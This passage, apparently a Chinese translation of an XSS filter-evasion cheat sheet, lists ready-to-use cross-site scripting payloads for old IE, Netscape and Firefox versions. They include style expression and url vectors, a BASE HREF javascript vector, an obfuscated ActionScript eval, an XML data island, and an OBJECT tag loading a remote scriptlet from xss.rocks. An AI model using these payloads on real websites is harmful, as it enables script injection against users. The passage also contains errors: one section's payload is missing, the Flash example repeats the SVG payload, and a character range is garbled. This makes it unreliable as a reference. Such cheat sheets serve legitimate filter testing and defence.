 Rnaske进行了一个快速的XSS模糊测试来发现IE和安全模式下的Netscape 8.1中任何可以在左括号和JavaScript指令间加入的额外字符。这都是十进制的但是你也可以使用十六进制来填充（以下字符可用：1-32, 34, 39, 160, 8192-8.13, 12288, 65279）:

<DIV STYLE="background-image: url(&#1;javascript:alert('XSS'))">

2.67.4. DIV表达式

一个非常有效的对抗现实中的跨站脚本过滤器的变体是在冒号和"expression"之间添加一个换行：

<DIV STYLE="width: expression(alert('XSS'));">

2.68.    html 条件选择注释块
只能在IE5.0及更高版本和IE渲染引擎模式下的Netscape 8.1生效。一些网站认为在注释中的任何内容都是安全的并且认为没有必要移除，这就允许我们添加跨站脚本攻击向量。系统会在一些内容周围尝试添加注释标签以便安全的渲染它们。如我们所见，这有时并不起作用：



2.69.    BASE标签
在IE和安全模式下的Netscape 8.1有效。你需要使用//来注释下个字符，这样你就不会造成JavaScript错误并且你的XSS标签可以被渲染。同样，这需要当前网站使用相对路径例如"images/image.jpg"来放置图像而不是绝对路径。如果路径以一个斜杠开头例如"/images/image.jpg"你可以从攻击向量中移除一个斜杠（只有在两个斜杠时注释才会生效）：

<BASE HREF="javascript:alert('XSS');//">

2.70.    OBJECT标签
如果允许使用OBJECT，你可以插入一个病毒攻击载荷来感染用户，类似于APPLET标签。链接文件实际是含有你XSS攻击代码的HTML文件:

<OBJECT TYPE="text/x-scriptlet" DATA="http://xss.rocks/scriptlet.html"></OBJECT>

2.71.    使用EMBED标签加载含有XSS的FLASH文件
如果你添加了属性allowScriptAccess="never"以及allownetworking="internal"则可以减小风险（感谢Jonathan Vanasco提供的信息）:

<EMBED SRC="data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcv MjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hs aW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAw IiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlh TUyIpOzwvc2NyaXB0Pjwvc3ZnPg==" type="image/svg+xml" AllowScriptAccess="always"></EMBED>

2.72.    使用EMBED SVG包含攻击向量
该示例只在FireFox下有效，但是比上面的攻击向量在FireFox下好，因为不需要用户安装或启用FLASH。感谢nEUrOO提供:

<EMBED SRC="data:image/svg+xml;base64,PHN2ZyB4bWxuczpzdmc9Imh0dH A6Ly93d3cudzMub3JnLzIwMDAvc3ZnIiB4bWxucz0iaHR0cDovL3d3dy53My5vcmcv MjAwMC9zdmciIHhtbG5zOnhsaW5rPSJodHRwOi8vd3d3LnczLm9yZy8xOTk5L3hs aW5rIiB2ZXJzaW9uPSIxLjAiIHg9IjAiIHk9IjAiIHdpZHRoPSIxOTQiIGhlaWdodD0iMjAw IiBpZD0ieHNzIj48c2NyaXB0IHR5cGU9InRleHQvZWNtYXNjcmlwdCI+YWxlcnQoIlh TUyIpOzwvc2NyaXB0Pjwvc3ZnPg==" type="image/svg+xml" AllowScriptAccess="always"></EMBED>

2.73.    在FLASH中使用ActionScript混淆XSS攻击向量
a="get";

b="URL(\"";

c="javascript:";

d="alert('XSS');\")";

eval(a+b+c+d);

2.74.    CDATA混淆的XML数据岛
这个XSS攻击只在IE和使用IE渲染模式的Netscape 8.1下有效-攻击向量由Sec Consult在审计Yahoo时发现

<XML ID="xss"><I><B><IMG SRC="javascript:alert('XSS')"></B></I></XML>
